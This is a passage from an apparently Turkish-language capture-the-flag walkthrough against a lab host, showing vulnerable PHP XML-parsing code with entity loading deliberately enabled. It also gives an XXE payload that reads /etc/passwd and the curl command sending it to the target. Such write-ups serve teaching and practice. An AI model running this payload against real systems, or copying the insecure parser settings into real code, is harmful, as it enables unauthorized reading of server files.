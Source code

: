 ```html
Try using curl to POST Xml commands or Xml script files herE!   

PHP code below...
 
    libxml_disable_entity_loader (false); 
    
    $xmlfile = file_get_contents('php://input'); 
    
    $dom = new DOMDocument(); 
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
    $creds = simplexml_import_dom($dom); 
    $user = $creds->customer; 
    $pass = $creds->password; 
    echo "Welcome $user !";
-->


Welcome  ! 


</body>


<!--also pls update the password for the custom ftp acct once the front end is finished..since it's easy -->

</html>

```

Sayfa koduna bakığımızda XML dosyalarını kabul ettiğini ve xml yapısının nasıl olduğunu anlayabiliriz. Bir xml dosyası oluşturup curl ile bağlantı atalım.

```sh
root@kali:/var/www/html# cat xml.txt 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds>
	<customer>&xxe;</customer>
	<password>mypass</password>
</creds>

```
XML ile xxe injection bilinmesi gerekiyor yukarıda ne yaptığımızı anlayabilmek için. Kısacassı XXE injecion ile XML parser işlemleri yapan ya da XML dosyalarında işlemler yapan sunucu taraflı alışan programlama dillerinde (php gibi) düzgün bir payload ile uzaktan kod çalıştırma işleminde bulunabiliriz. BU konuyla alakalı açıklayıcı bir linki kaynaklar kısmında paylaştım. Eğer eksik olduğunuzu düşünüyorsanız, lütfen çalıştıktan sonra devame edin.

```sh
root@kali:/var/www/html# curl -d  @xml.txt http://casino-royale.local/ultra-access-view/main.php
<html>
<style>
body {
	color: #c46f6f;
}
hr {
	color: magenta;
}
</style>

<body style="background-color:#1e1614;">
<h1 style="color:red;">Client Access: ULTRA</h1>
<hr>
```